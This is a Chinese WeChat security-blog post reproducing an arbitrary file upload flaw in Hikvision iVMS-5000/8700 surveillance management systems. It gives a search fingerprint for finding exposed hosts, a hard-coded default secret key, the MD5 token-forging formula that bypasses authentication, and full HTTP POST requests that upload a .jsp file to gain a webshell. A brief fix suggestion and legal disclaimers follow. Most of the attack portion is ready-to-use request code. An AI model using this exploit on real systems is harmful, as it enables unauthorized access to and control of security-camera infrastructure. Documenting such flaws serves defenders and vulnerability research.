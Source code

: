 #  海康威视iVMS综合安防系统任意文件上传漏洞

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 83个

**漏洞简介**

海康威视iVMS系统存在在野0day漏洞，攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。

 **影响版本**

海康威视综合安防系统iVMS-5000

海康威视综合安防系统 iVMS-8700

 **鹰图指纹**  

  * 

    
    
     web.body="/views/home/file/installPackage.rar"

![](https://gitee.com/fuli009/images/raw/master/public/20230714180936.png)

 **漏洞复现  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230714180937.png)
burp抓包，尝试访问接口

POC：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Upgrade-Insecure-Requests: 1  
    service=http%3A%2xxxxxxxhome%2Findex.action

![](https://gitee.com/fuli009/images/raw/master/public/20230714180938.png)

构造token绕过认证  （内部机制：如果token值与请求url+secretkey的md5值相同就可以绕过认证）  
默认值：secretKeyIbuilding  
token值需要进行MD5加密（32位大写）  
组合：token=MD5(url+"secretKeyIbuilding")  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180939.png)

成功绕过

![](https://gitee.com/fuli009/images/raw/master/public/20230714180940.png)

然后构造文件上传payload:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPoUpgrade-Insecure-Requests: 1Content-Length: 177  
    ------WebKitFormBoundaryGEJwiloiPoContent-Disposition:form-data;name=\"fileUploader\";filename=\"1.jsp\"Content-Type: image/jpeg  
    test------WebKitFormBoundaryGEJwiloiPo  
    

访问http://URL/esp/upload/返回得到的resourceUuid的值.jsp，这里不再赘述

 **修复建议**

关闭互联网暴露面访问的权限，文件上传模块做好权限强认证  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180941.png)  

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

 **由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。 **公众号**
内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

